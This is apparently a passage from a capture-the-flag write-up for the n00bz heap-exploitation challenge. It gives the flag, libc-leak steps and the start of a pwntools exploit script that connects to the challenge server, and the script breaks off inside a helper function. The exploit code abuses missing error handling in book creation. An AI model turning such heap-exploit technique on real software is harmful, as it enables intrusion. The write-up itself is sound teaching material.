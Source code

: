 ```n00bz{miss_error_handling_turns_into_RCE?}```
create_book(0,b'abcd',20,p64(libcbase+0x001b7b80)*5,0x28)
edit_book(0,b'abcd',20,b'F'*0x58,0x58)
create_invalid_book(1,b'lol',20,-1)
print(leak(1))
```

Then downloaded the correct libc version and fixed offsets.

## Full exploit code:

```python
from pwn import *

context.terminal = ["konsole","-e"]

#1 edit book
#2 print book
#3 delete book
#4 create book's 2nd malloc
gdbscript = """
b *$rebase(0x00001695)
b *$rebase(0x000017a8)
b *$rebase(0x00001875)
b *$rebase(0x1615)
c
c 8
c 8
c 8
c
c 7
c
c
c 8
c
c
c
"""

#io = gdb.debug("./chall",gdbscript=gdbscript)
#io = process("./chall")
io = remote("167.99.154.216",4441) #167.99.154.216 4441 

def create_book(idx,title,num_pages,desc,desc_len):
    io.recvuntil(b'>')
    io.sendline(b'1')
    io.recvuntil(b'idx book:')
    io.sendline(f"{idx}".encode())
    io.recvuntil(b'title:')
    io.send(title)
    io.recvuntil(b'num page:')
    io.sendline(f"{num_pages}".encode())
    io.recvuntil(b"desc len:")
    io.sendline(f"{desc_len}".encode())
    io.recvuntil(b'desc:')
    io.send(desc)

def create_invalid_book(idx,title,num_pages,desc_len):
    io.recvuntil(b'>')
    io.sendline(b'1')
    io.recvuntil(b'idx book:')
    io.sendline(f"{idx}".encode())
    io.recvuntil(b'title:')
    io.send(title)
```